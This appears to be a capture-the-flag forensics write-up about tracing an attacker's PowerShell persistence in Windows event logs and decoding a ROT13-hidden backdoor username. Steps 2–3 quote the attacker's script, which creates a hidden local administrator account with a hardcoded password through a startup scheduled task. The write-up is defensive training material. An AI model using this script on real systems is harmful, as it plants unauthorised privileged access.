

<div align="center">

# 🔐 Hidden Backdoor User  
## PowerShell Obfuscation & Persistence Investigation


</div>

---

### 🎯 Objective

Investigate Windows logs to identify suspicious attacker activity hidden within PowerShell execution logs.

The challenge description indicated that the attacker attempted to **hide information within a comment left inside their script**.

The objective was to determine **what value the attacker attempted to conceal**.

---

### 🖥 Environment

| Tool | Purpose |
|-----|------|
| Kali / Ubuntu Linux VM | Investigation environment |
| Windows Event Logs | Activity reconstruction |
| PowerShell Script Block Logging | Command visibility |
| Manual code analysis | Identify obfuscation |

---

### 📦 Step 1 — Acquire the Challenge Artifacts

The challenge provided a compressed archive containing Windows event logs.

```
logs.zip
```

After downloading the archive, the files were extracted for analysis.

```bash
unzip logs.zip
```

The extracted logs included several Windows event sources that could reveal attacker activity.

---

### 🔍 Step 2 — Search Logs for Suspicious Activity

To locate relevant activity, the logs were searched for keywords related to flags and attacker activity.

Searching the **Operational logs** revealed a PowerShell script block containing the following code.

📸 **PowerShell Script Block Log**



Within the log entry, a comment written by the attacker was discovered:

```
#Hide the real name of our backdoor user
$hiddenName = ROT13 abgnonpxqbbehfre 13
```

This indicated that the attacker attempted to hide the username of a **backdoor account** using ROT13 encoding.

---

### 🧪 Step 3 — Analyze the PowerShell Script

The script revealed several suspicious behaviors.

Key observations included:

- creation of a **new local user account**
- addition of that account to the **Administrators group**
- creation of a **scheduled task for persistence**

Relevant section of the script:

```powershell
#Hide the real name of our backdoor user
$hiddenName = ROT13 abgnonpxqbbehfre 13

$TaskAction = New-ScheduledTaskAction -Execute "PowerShell.exe" -Argument "-Command "New-LocalUser -Name '$hiddenName' -Password (ConvertTo-SecureString 'bdpassbdpass123!' -AsPlainText -Force); Add-LocalGroupMember -Group 'Administrators' -Member '$hiddenName'""
```

This script would:

1. Decode the hidden username
2. Create a new account
3. Add the account to the Administrators group
4. Execute automatically at system startup

This behavior represents a **persistence mechanism used by attackers**.

---

### 🔄 Step 4 — Decode the Obfuscated Username

The username value was encoded using **ROT13**.

ROT13 is a simple substitution cipher that shifts alphabetic characters by 13 positions.

Encoded value:

```
abgnonpxqbbehfre
```

Applying ROT13 decoding revealed the hidden username.

This value represented the **backdoor user account created by the attacker**.

---

## 🧠 Methodology Framework Applied

```
Artifact acquisition
      ↓
Log search for suspicious activity
      ↓
PowerShell script block discovery
      ↓
Obfuscation identification
      ↓
ROT13 decoding
      ↓
Hidden value recovery
```

---

## 🛠 Techniques Used

Primary investigation techniques:

- Windows event log analysis  
- PowerShell Script Block inspection  
- obfuscation detection  
- ROT13 decoding  

Key artifact analyzed:

```
PowerShell Script Block Logging
Event ID 4104
```

---

## 🛡 Defensive Insight

Attackers frequently attempt to hide malicious activity using **simple encoding or obfuscation techniques**.

ROT13 is often used because it can obscure readable text while remaining trivial to decode.

This investigation highlights the importance of:

- enabling **PowerShell Script Block Logging**
- reviewing **scheduled task creation**
- monitoring **unexpected administrator account creation**

These indicators can reveal attacker persistence techniques.

---

## 💡 Skills Reinforced

- Windows event log analysis  
- PowerShell script inspection  
- obfuscation detection  
- ROT13 decoding  
- persistence technique identification  

---

<div align="center">

🔐 Attackers hide commands in plain sight  
🔍 Script logs reveal persistence techniques  
🧠 Simple obfuscation can expose attacker intent  

</div>
